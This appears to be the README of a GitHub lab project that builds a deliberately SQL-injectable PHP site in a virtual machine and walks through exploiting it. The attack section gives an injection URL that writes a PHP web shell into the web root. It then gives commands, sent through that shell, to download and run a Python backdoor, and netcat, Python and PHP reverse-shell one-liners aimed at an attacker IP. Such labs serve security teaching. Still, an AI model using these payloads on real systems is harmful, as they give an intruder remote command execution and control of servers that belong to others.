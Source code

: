 SQL INJECTION ATTACK EXAMPLE
============================

This small project is a working example of setting up a website vulnerable to SQL injection with instructions
on how to exploit it to get shell access.

Setup Instructions
----------------------------

In order to setup locally, you will need Virtualbox, Vagrant and Ansible installed on your work machine.

```
// Clone the repository to your work machine.
# git clone git@github.com:doublehops/sql-injection-attack-example.git

// Change into the new directory download and run the virtual machine with:
# vagrant up

// Ensure you can ssh into the virtual machine:
# ssh vagrant@192.168.30.99 -i .vagrant/machines/default/virtualbox/private_key

// Use Ansible to provision (install the webserver, PHP, MariaDB/MYSQL) the box with the following:
# dev/provision.sh local_dev

// Import database schema and data into database:
# dev/ssh-import-database.sh

// Load the webpage in your browser to check all is well: http://192.168.30.99
```

Play Around with SQL Injection
------------------------------

I have added an example of how to exploit an SQL Injection vulnerability by changing the passwords of all users in the user table.
<a href="sql-injection-play.php">SQL Injection Play</a>. You need to reload the page to see the results as the select query is executed before the update request.


Gain Shell Access to Webserver with the Help of SQL Injection
-------------------------------------------

Create a PHP script that will run commands  
http://10.0.2.2/sql-injection/outfile.php?username=d%27;select%20%22%3C?php%20system($_GET[%27cmd%27]);%22%20into%20outfile%20%22/var/www/web/images/cmd.php%22;  

__PYTHON BACKDOOR__

Download Python reverse shell  
http://10.0.2.2/images/cmd.php?cmd=wget%20http://10.0.2.2/scripts/reverse-shell.py -O /tmp/reverse-shell.py

Run new Python backdoor script  
http://10.0.2.2/images/cmd.php?cmd=/tmp/reverse-shell.py




NOTES
----------

Setup host machine for incoming connections:  
`nc -nvlp 4444`

__Run reverse shell command on foreign machine:__

Netcat reverse shell:  
`nc.traditional -e /bin/sh <host> 4444`

Python reverse shell:  
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP reverse shell:  
`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
